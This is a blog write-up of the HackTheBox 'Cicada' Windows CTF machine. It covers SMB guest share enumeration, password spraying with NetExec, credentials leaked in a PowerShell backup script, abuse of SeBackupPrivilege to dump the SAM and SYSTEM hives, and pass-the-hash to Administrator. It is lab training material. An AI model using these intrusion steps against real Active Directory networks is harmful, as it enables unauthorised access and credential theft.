+++
title = 'Cicada'
date = 2024-09-30T17:20:03+03:00
draft = false
tags = ['htb', 'writeup']
htmx = ['template']
summary = '[Cicada](https://app.hackthebox.com/machines/Cicada) is an easy Windows CTF box, that is a part of the HackTheBox season 5 machines. Machine created by [theblxckcicada](https://app.hackthebox.com/users/796798) *+respict*.'
description = '"Cicada" is an easy Windows CTF machine. Released on 28th of September, 2024 (HackTheBox)'
thumbnail = 'img/cd-icon.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection `sudo nmap -v -p- -sC -sV -oN scans/nmap/init $IP`:

```text
Host is up (0.033s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 01:48:57Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-30T01:49:38
|_  start_date: N/A
```

### Service Enumeration

At first I looked at common AD services. I noticed that I can access shares as the `Guest` user /w no password. For that I used `NetExec`:

```bash
nxc smb $IP -u guest -p '' --shares
```



The Guest user has access to two shares. One of which is a non default share `//CICADA.HTB/HR`. The HR share contains a file called `Notice from HR.txt`. Using `smbclient` & the Guest user I'm able to download it.



The file contains information about passwords. One line in particular reveals the default password assigned to new users. Other lines are not as important.

```text
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: <REDACTED>

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Now I attempted to find valid usernames in order to perform password spraying. I tried multiple ideas like `kerbrute` & `LDAP`, but those did not work. After those I ran `SMB RID brute-force` which was able to find all of the users.



Exploitation
------------

### Password Spraying

Now we have all the pieces of the puzzle. For password spraying I set-up a wordlist containing non standard users. After which I ran the password spray. As seen in the image only one user failed to change his password (`michael.wrightson`).

```bash
nxc smb $IP -u users.txt -p '<REDACTED>' --continue-on-success
```



### Domain User Enumeration

Now that we have access to a domain user, I performed enumeration with `enum4linux`. Specifically, I used the new-generation version written in Python.

```bash
enum4linux-ng.py -u "guest" -p "" $IP
```

Looking through all of the found users, we can see that one user has a password within the description field (`david.orelious`).



Looking at the shares we notice that this user has access to the development share (`//CICADA.HTB/DEV`).



The share contains another file. This one on the other hand is a PowerShell backup script.



Looking at the script we notice that it leaks another users credentials (`emily.oscars`). See the code bellow:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

### Shell Access

After this I tested the users credentials and noticed that it allows PowerShell remoting.



This access allows us to login with PowerShell. This also allows us to get the `user.txt` flag.



Privilege Escalation
====================

Enumeration
-----------

The privilege escalation path is very easy to find. As it was in the previous script, it seems that the Emily user has the right to perform backups.

If we check the user permissions we can see that this user has the `SeBackupPrivilege` & `SeRestorePrivilege` privileges. Both of these permissions are assigned to the users of the `Backup Operators` group.


Exploitation
------------

These privileges can be abused to read critical files / user password hashes. For example the `C:\Windows\NTDS\NTDS.dit` or the windows registry. For this challenge I saved the `SYSTEM` & `SAM` registry hives.

For saving I used the registry CLI tool. For exfiltration I used Evil-WinRMs inbuilt features. See image bellow.



After that I am able to extract all of the hashes using [pypykatz](https://github.com/skelsec/pypykatz) locally. See results bellow.



Using the Administrators hashes it is possible to perform a pass-the-hash attack. Once again, using Evil-WinRM get the `root.txt` flag.


